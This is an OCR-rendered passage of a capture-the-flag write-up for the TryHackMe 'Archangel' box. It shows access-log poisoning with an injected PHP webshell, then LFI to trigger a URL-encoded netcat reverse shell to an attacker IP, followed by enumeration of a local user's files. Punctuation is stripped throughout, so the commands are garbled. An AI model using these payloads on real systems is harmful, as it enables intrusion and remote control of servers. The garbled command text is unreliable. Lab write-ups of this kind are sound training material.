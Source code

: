 We can confirm if this attempt was successful by including this log file and viewing the output of the webpage 

     reports Archangel image6 png 

Seeing as the log file outputs the PHP info  we can conclude that the malicious GET request succeeded  and the PHP code was executed on the web server  Therefore  we can send another GET request to create a PHP webshell 

   highlight bash   
       0xd4y Writeup     business tryhackme easy linux archangel   
      nc mafialive thm 80  
GET    php system   GET  cmd        
HTTP 1 1 400 Bad Request  
Date  Sat  01 May 2021 02 34 25 GMT  
Server  Apache 2 4 29  Ubuntu   
Content Length  301  
Connection  close  
Content Type  text html  charset iso 8859 1  
  
  DOCTYPE HTML PUBLIC     IETF  DTD HTML 2 0  EN    
 html  head   
 title 400 Bad Request  title   
  head  body   
 h1 Bad Request  h1   
 p Your browser sent a request that this server could not understand  br     
  p   
 hr   
 address Apache 2 4 29  Ubuntu  Server at localhost Port 80  address   
  body   html 
   endhighlight   

We can now get a reverse shell by sending the following payload 

Payload 

http   mafialive thm test php view  var www html development testing                             var log apache2 access log cmd rm  2Ftmp 2Ff 3Bmkfifo  2Ftmp 2Ff 3Bcat  2Ftmp 2Ff  2Fbin 2Fsh  i 2 3E 261 nc 10 2 29 238 9001  3E 2Ftmp 2Ff

Note that a url encoded netcat reverse shell was used  

The revshell  2    ftnt2  tool was used to create the reverse shell payload  and we are able to get a shell as the www data user 

     reports Archangel image4 png 

Horizontal Privilege Escalation
                               

With a low privileged shell  we are unable to execute any commands that may lead to a privilege escalation  However  we can exploit misconfigurations on the server to potentially escalate privileges  The local user  archangel  may have some files that we have access to that could potentially lead to us compromising his or her account  We can enumerate all the files that this user owns on the local system with the following command 

   highlight bash   
www data ubuntu  home archangel  find    user archangel 2  dev null  
 opt helloworld sh  
 opt backupfiles  
 home archangel  
 home archangel  selected editor  
 home archangel  local  
 home archangel  local share  
 home archangel  profile  
 home archangel secret  
 home archangel user txt  
 home archangel myfiles  
 home archangel  cache  
 home archangel  bash logout  